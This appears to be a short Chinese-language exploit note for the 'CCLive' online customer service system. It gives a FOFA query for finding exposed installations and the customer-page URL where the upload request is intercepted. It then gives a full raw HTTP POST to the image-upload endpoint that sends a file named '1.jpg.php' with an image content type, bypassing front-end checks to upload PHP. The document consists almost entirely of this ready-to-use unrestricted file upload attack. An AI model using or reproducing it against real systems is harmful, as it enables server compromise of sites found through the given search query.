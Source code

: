 FOFA
----

    title="CCLive在线客服系统"

漏洞利用
--------

訪問URL進入在線客服頁面，然後從圖片上傳處進行抓包

    /index/index/home?visiter_id=&visiter_name=&avatar=&business_id=1&groupid=0&special=1

將png後綴修改為php,以這樣的方式來繞過前端驗證:

    POST /admin/event/uploadimg HTTP/1.1
    Host: url
    Cookie: PHPSESSID=utrvj3a4vmncvmiaknccmt17nr
    Content-Length: 721
    Accept: application/json, text/javascript, */*; q=0.01
    Origin: url
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 SE 2.X MetaSr 1.0
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryWvBQTUlpjNAdVfUt
    Referer: url/index/index?code=v9zzfNPShXGiImqm%2BjTb52DPR%2B%2BcnjEIFN4Q%2BfnbLgkNxmOgGDfmOzNSL49%2B0SCZHhjvyJZc%2BNPFyOv33HNisSF5hkaZW0w4QFZkqCzXmWx9Bi0GXxAdBo0MVIuqTye2XlFYUQ
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.8
    Connection: close
    ------WebKitFormBoundaryWvBQTUlpjNAdVfUt
    Content-Disposition: form-data; name="editormd-image-file"; filename="1.jpg.php"
    Content-Type: image/png
    text
    ------WebKitFormBoundaryWvBQTUlpjNAdVfUt
    Content-Disposition: form-data; name="visiter_id"
    YKs5EmtR
    ------WebKitFormBoundaryWvBQTUlpjNAdVfUt
    Content-Disposition: form-data; name="business_id"
    zzcc520
    ------WebKitFormBoundaryWvBQTUlpjNAdVfUt
    Content-Disposition: form-data; name="avatar"
    /assets/images/index/avatar-red2.png
    ------WebKitFormBoundaryWvBQTUlpjNAdVfUt
    Content-Disposition: form-data; name="record"
    ------WebKitFormBoundaryWvBQTUlpjNAdVfUt
    Content-Disposition: form-data; name="service_id"
    13
    ------WebKitFormBoundaryWvBQTUlpjNAdVfUt--